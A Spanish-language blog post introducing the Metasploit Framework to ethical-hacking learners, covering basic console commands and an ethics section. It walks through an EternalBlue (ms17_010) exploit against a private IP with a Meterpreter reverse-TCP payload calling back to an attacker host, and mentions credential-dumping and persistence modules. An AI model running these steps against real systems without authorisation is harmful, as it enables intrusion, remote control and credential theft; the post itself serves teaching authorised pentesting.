 ```yaml
---
layout: post
title: "Metasploit: Tu arsenal hacker en un solo framework"
author: "l1ttl3bugc4t"
date: "2025-05-19"
tags: [Hacking, Pentesting, Metasploit, Framework, Explotación]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


En el mundo del hacking ético, tener una herramienta todo-en-uno es como tener un sable láser personalizado.  
Y esa herramienta se llama **Metasploit Framework**. 😼🔫💻

---

## 🌠 ¿Qué es Metasploit?

**Metasploit** es un framework de explotación que permite a profesionales de la ciberseguridad (y a hackers curios@s como tú) **descubrir, explotar y validar vulnerabilidades** en sistemas informáticos.

Incluye herramientas para escaneo, explotación, post-explotación, generación de payloads y pruebas de seguridad automatizadas. Todo en un solo universo. 🌌

---

## 🛰️ ¿Para qué sirve Metasploit?

- 🕵️‍♀️ Ejecutar exploits en sistemas vulnerables
- 💥 Crear y lanzar payloads personalizados
- 🧪 Validar vulnerabilidades (con PoC integrados)
- 🧠 Automatizar pruebas de intrusión
- 🔓 Realizar post-explotación (persistencia, extracción de datos, etc.)

---

## 🐾 ¿Cómo iniciar Metasploit?

Primero, abre tu terminal mágica y escribe:

```bash
msfconsole
```

Una vez dentro, verás algo como esto:

```
       =[ metasploit v6.x ]
+ -- --=[ 2200 exploits - 1300 auxiliary - 650 payloads ]
```

Ahora estás dentro de la consola interactiva de Metasploit. 🎯

---

## 🔍 Comandos básicos para moverte como un@ pro

- `search <término>`  
  Buscar módulos por nombre, CVE, plataforma, etc.

- `use <módulo>`  
  Cargar un módulo de exploit, scanner o auxiliary.

- `show options`  
  Ver las opciones configurables del módulo activo.

- `set <opción> <valor>`  
  Configurar una opción, como `RHOSTS`, `LHOST`, `PAYLOAD`.

- `run` o `exploit`  
  Ejecutar el módulo activo.

- `back`  
  Salir del módulo actual.

- `exit`  
  Salir de Metasploit.

---

## 💫 Ejemplo de ataque con Metasploit

1. Buscar una vulnerabilidad:
```bash
search ms17_010
```

2. Usar el exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

3. Configurar opciones:
```bash
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
```

4. Ejecutar:
```bash
exploit
```

¡Y listo! Si el sistema es vulnerable, obtendrás una sesión **Meterpreter**, tu shell remota galáctica. 🐚👾

---

## 🧠 Tips útiles y comandos avanzados

- `db_nmap`: Usa Nmap desde Metasploit y guarda los resultados.
- `sessions -l`: Lista las sesiones activas.
- `sessions -i <id>`: Interactúa con una sesión específica.
- `post/`: Explora módulos de post-explotación (dump creds, persistence, etc.).
- `msfvenom`: Genera payloads personalizados en múltiples formatos.

---

## 🛡️ Consideraciones éticas

- 🚫 No uses Metasploit sin consentimiento. Solo en entornos controlados o pruebas autorizadas.
- 💻 Úsalo como herramienta educativa, de laboratorio o pentesting certificado.
- 📜 Respeta siempre las leyes y el entorno donde lo utilices.

---

## 🐱‍💻 Buenas prácticas hacker

- Practica en entornos como Metasploitable, TryHackMe o Hack The Box.
- Crea scripts que automaticen fases con `resource scripts`.
- Revisa CVEs en módulos con `info` para entender el exploit.

---

## 🚩 Conclusión Galáctica

**Metasploit** es tu nave nodriza de explotación: poderosa, compleja y modular.  
Dominarla no solo te hace mejor pentester, sino también un defensor más preparado.

> 🐾✨ _"Con Metasploit, no solo exploras vulnerabilidades... las dominas."_ — **l1ttl3bugc4t**

---
